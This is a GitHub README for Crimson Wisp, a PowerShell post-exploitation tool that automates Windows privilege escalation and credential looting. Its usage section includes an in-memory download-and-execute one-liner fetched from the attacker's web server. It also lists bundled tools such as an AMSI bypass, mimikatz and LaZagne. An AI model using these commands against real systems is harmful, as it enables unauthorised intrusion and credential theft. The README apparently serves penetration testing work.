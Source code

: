 # Crimson Wisp

> Crimson Wisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="wisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_wisp.git
```
# Usage
## ON THE HOST MACHINE
* GO TO crimson_wisp DIRECTORY AND START THE WEB SERVER
```
cd crimson_wisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE
* LOAD THE SCRIPT TO MEMMORY
```
IEX(new-object system.net.webclient).downloadstring("http://<your_server>/wisp.txt")
```
* SET A SERVER URL FOR THE DOWNLOADERS & LOAD THE SCRIPTS
```
Invoke-Wisp -Url http://<your_server>
. memory_load
```
* PRIVILEGE ESCALATION ENUMERATION
```
escalation
```
* LOOTING THE SYSTEM - USE AS nt `authority/system` ONLY!
```
looting
```
# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/)

# List of utilized tools
> The following tools are used in `Crimson Wisp`. I encourage you to study the links below. They will help you in your work.

* [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [AMSI BYPASS](https://github.com/Karmaz95/evasion/blob/main/isma.txt)
* [HostRecon](https://github.com/dafthack/HostRecon)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* [adPEAS](https://github.com/61106960/adPEAS)
* [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [Invoke-Portscan](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [nmap](https://nmap.org/)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [laZagne](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>